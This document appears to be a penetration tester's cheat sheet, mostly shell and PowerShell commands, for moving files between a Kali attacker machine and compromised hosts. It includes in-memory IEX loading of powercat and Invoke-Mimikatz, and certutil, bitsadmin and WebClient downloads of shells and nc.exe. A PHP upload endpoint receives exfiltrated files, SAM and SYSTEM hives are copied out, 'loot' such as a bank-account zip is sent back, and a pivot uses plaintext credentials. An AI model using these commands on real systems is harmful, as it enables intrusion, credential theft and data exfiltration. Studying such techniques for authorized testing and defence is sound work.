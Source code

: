 # Transferring Files

https://github.com/eMVee-NL/MindMap/tree/main/File-Transfer


Nothing is 100% bullet-proof. This is why I have several options to accomplish this.
1- As already mentioned, impacket-smbserver -smb2support test . is gold.
2- python -m pyftpdlib -w will spawn a ftp server on you kali. use the ftp command on windows to transfer the file(s).
3- On Kali: nc -lvp 4444 > TransferedFile on Windows: nc.exe <kali_ip> 4444 -w 5 < FileToTransfer
4- Using powercat + powershell. Host powercat.ps1(link: https://github.com/besimorhino/powercat/blob/master/powercat.ps1) in a webserver on the attacker machine. Execute powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://kali-ip/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoTransfer" On kali: wget http://windows-ip:4444/FileToTransfer
5- Host the below php on a php-enabled webserver on kali:

<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

Use a webbrowser on the victim to access the page and upload the desired file or use the below powershell to accomplish the same:

powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:8888/upload.php', 'bloodhound.zip')


sudo systemctl apache2 start
sudo php -S 0.0.0.0:80
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.45.178:90/upload.php', 'bloodhound.zip')

### Powershell Linux to Windows

```bash
(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:8000/chisel.exe','C:\Windows\Tasks\chisel.exe')
```

### SMB Linux to Windows

```bash
impacket-smbserver -smb2support Share .
cmd.exe /c //kali_ip/Share/shell443.exe
```

```bash
/usr/local/bin/smbserver.py -username df -password df share . -smb2support
net use \\kali_ip\share /u:df df
copy \\kali_ip\share\shell443.exe
```

```bash
impacket-smbserver -smb2support Share .
net use \\kali_ip\share
copy \\kali_ip\share\whoami.exe
```

### Windows http server Linux to Windows

```bash
python3 -m http.server 80
certutil -urlcache -split -f http://kali_ip/shell.exe C:\\Windows\temp\shell.exe
```

```bash
Invoke-WebRequest -Uri http://10.10.93.141:7781/winPEASx64.exe -OutFile wp.exe
```

#### Transfer Files with NetCat

On your computer:

```bash
nc -l -p 12345 > received_file
```

On the remote computer, Windows in this case:

```bash
Get-Content .\yourfile.txt -Raw | nc.exe <Your_IP_Address> 12345
```

#### Errors

```bash
Access is denied. In this case try Invoke-WebRequest for powershell
```

#### Host Simple FTP Server

```bash
python -m pyftpdlib -w
```

### SMB Shares Windows to Windows

```bash
In this situation we have logged onto computer A
sudo impacket-psexec Admin:'password123'@192.168.203.141 cmd.exe
C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.203.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.203.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.93.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   
 Via Computer A we pivot to Computer B (internal IP) with these creds
 proxychains evil-winrm -u celia.almeda -p 7k8XHk3dMtmpnC7 -i 10.10.93.142
```

#### Accessing $C Drive of Computer A

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> net use * \\10.10.93.141\C$ /user:Admin password123
```

#### Copying over files

```bash
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SYSTEM Z:\
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SAM Z:\
```

### SMB Server Bi-directional

```bash
impacket-smbserver -smb2support Share .
smbserver.py -smb2support Share .
mkdir loot #transfering loot to this folder
net use * \\192.168.119.183\share
copy Z:\<file you want from kali>
copy C:\bank-account.zip Z:\loot #Transfer files to the loot folder on your kali machine
```

#### Authenticated

```bash
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

```bash
impacket-smbserver -username df -password df share . -smb2support
net use \\10.10.16.9\share /u:df df
copy \\10.10.16.9\share\evil.file
```

#### Host an Apache Web Server

```bash
sudo systemctl start apache2
cp file.txt /var/www/html/
# You can access the files on port 80 of your machine/ip
```

### PHP Script Windows to Linux

```bash
cat upload.php
chmod +x upload.php
```

```bash
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```bash
sudo mkdir /var/www/uploads
```

```bash
mv upload.php /var/www/uploads
```

```bash
service apache2 start
ps -ef | grep apache
```

```bash
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:9999/upload.php', '.\dc_20240822153055_BloodHound.zip')"
```

```bash
service apache2 stop
```

Uploading files with TFTP.

```bash
root@kali:~# mkdir /tftp
root@kali:~# atftpd --daemon --port 69 /tftp
root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
```

#### Dump

```bash
Invoke-WebRequest https://$myip/PowerView.ps1 -OutFile PowerView.ps1  # Download a file with PowerShell
IEX (New-Object Net.WebClient).DownloadString('https://$myip/Invoke-Mimikatz.ps1')   # Execute a file in memory using PowerShell
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64  # Upload a file with PowerShell
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe  #  Download a file using Bitsadmin
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe  #  Download a file using Certutil
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh # Download a file using Wget
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh # Download a file using cURL
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);' # Download a file using PHP
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip # Upload a file using SCP
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe #  Download a file using SCP
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe" # Invoke-WebRequest using a Chrome User Agent
```